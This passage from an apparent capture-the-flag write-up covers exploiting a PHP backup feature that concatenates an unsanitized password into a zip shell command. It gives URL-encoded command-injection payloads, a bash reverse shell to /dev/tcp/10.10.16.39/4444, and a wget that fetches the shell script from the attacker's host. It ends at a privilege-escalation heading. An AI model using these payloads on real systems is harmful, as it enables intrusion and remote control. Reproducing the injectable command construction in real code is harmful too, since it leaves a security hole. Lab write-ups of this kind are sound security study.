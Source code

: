 ```php
            echo "</div>";
        } else {
            echo "<div class='error-message'>Error creating the backup.</div>";
        }

        unlink($logFile);
    }
}
?>
```

after reading the source code, one line caught my eyes:
```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

hmm, so the password is being passed without any sanitization? so we can inject commands right?

after sometime of trying to craft the right payload I came up with this:
```bash
%0Abash%2520-c%2520"id"%0A
```
- `%0A` for a new line
- `%2520` is a doubled url encode for a space (trying tab `%09` also worked).

![](Pasted%20image%2020250518194008.png)

## Reverse Shell

now we have to make a simple shell script and upload it to the vulnerable server.

1. create the shell script (revshell from https://www.revshells.com/):
```bash
#!/bin/bash
sh -i >& /dev/tcp/10.10.16.39/4444 0>&1
```

2. start a server on our host:
```shell
python3 -m http.server
```

3. upload the script to the server with this payload:
```shell
%0Abash%2520-c%2520"wget%0910.10.16.39:8000/shell"%0A
```

4. finally start a listener to catch the reverse shell and run the script on the server:
```bash
%0Abash%2520-c%2520"bash%09shell"%0A
```

and to listen for the reverse shell I am using [penelope](https://github.com/brightio/penelope).

and we got a shell:
![](Pasted%20image%2020250518203801.png)
## Privilege Escalation
